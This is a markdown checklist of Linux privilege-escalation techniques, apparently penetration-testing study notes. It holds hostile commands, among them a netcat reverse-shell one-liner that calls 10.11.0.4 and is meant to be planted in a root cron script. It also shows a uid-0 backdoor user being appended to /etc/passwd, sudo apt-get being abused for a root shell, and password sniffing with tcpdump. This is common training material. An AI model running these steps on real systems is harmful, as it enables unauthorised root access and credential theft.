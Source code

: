 # 1. Find system info for kernel exploits
- [ ] hostname
- [ ] cat /etc/issue
- [ ] uname -a
- [ ] arch

# 2. Situational Awareness - Manual
- [ ] id  (user info)
- [ ] cat /etc/password (users list)
- [ ] whoami
- [ ] ps aux (running process list) (BETTER run PSPY)
- [ ] ip a (network interface info)
- [ ] route or routel (routing table)
- [ ] ss -anp  (listening ports)
- [ ] cat /etc/iptables/rules.v4  (firewall rules)
- [ ] ls -lah /etc/cron*  (cron jobs)
- [x] crontab -l  (cron jobs)
- [ ] sudo crontab -l (cron jobs)
- [ ] dpkg -l  (list applications installed with dpkg)
- [ ] find / -writable -type d 2>/dev/null   (Find writeable paths for the current user:)
- [ ] cat /etc/fstab (lists all drives that will be mounted at boot time)
- [ ] lsblk  (view all disk available)
- [ ] lsmod (list loaded kernel modules)
- [ ]  /sbin/modinfo modulename (find info and version of a specific module)
- [x] find / -perm -u=s -type f 2>/dev/null  (find files with SUID enabled)
- [x] find / -type f -name \*backup\*  2>/dev/null (look for hidden backup files)
- [x] check id_ecdsa and id_Rsa
- [ ] Always always look for the **"Unknown SUID binary!"** alert in SUID, its most probably the right path.
#### Interactive shell
```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

ctrl z

stty raw -echo && fg

export TERM=xterm-256color

```
# 3. Automated Enum
- [ ] ./unix-privesc-check standard > output.txt
- [ ] ./linpeas.sh
- [ ] ./LinEmun/sh

# 4. Exposed Confidential Information
- [ ] env (Check info exposed in environment variables)
- [ ] cat .bashrc  (check scripts running at boot time)
- [ ] Listen for processtraffic revealing passwords 
```
watch -n 1 "ps -aux | grep pass"
```
- [ ] Listen for network traffic revealing passwords:
```
sudo tcpdump -i lo -A | grep "pass"
```
- [ ] Look for common configuration files
```
find \ -type f -name logs.txt, log.txt, debug.log, *.log, *.config, *.ini 2>/dev/null
```
# 5. Insecure FilePermission

- [ ] Check if there's a cronjob running a script as root that the current user can modify!
```
List cronjobs from the syslogs
	grep "CRON" /var/log/syslog
Onliner reverse shell to add to a .sh script:
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f 
```
- [ ] Check if we can modify /etc/passwd. If so, add a new user with a new password like this:
```
joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g

joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

joe@debian-privesc:~$ su root2
Password: w00t

root@debian-privesc:/home/joe# id
uid=0(root) gid=0(root) groups=0(root)
```

# 6. Insecure System Components

- [ ] Check if you can abuse any **SUID** binary from GTFObins
- [ ] Check for **capabilities** that could be abused
```
joe@debian-privesc:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.28.1 = cap_setuid+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
- [ ] Check which binaries can be run as ROOT by the user, be  aware that apparmor could block some actions. Check syslog to see if apparmor is blocking your app **'cat /var/log/syslog | grep appname'**
```
joe@debian-privesc:~$ sudo -l
[sudo] password for joe:
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```
```
joe@debian-privesc:~$ sudo apt-get changelog apt
...
Fetched 459 kB in 0s (39.7 MB/s)
# id
uid=0(root) gid=0(root) groups=0(root)
```

- [ ] Check **weird permissions on /bin/sh** or /bin/bash. **Usually /bin/bash does not have the setuid bit set** .If suid is set on /bin/bash, simply type "`/bin/bash -p`" to get root!!

- [ ] Finally, use the system info gather about the kernel or any application version to find a publicly available exploit. 
- [ ] 

Example searchsploit search:
```
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```

### Useful enumeration commands

- [ ] Use grep to find where a particular executable that you can replace is being called from. e.g. (find what service or file (most likely under /etc/) is calling "rare_executable" ) `grep -r "/home/user/rare_executable" /etc/` . If files are located in you /home/user directory, you can always replace them although they are not writable or owned by root.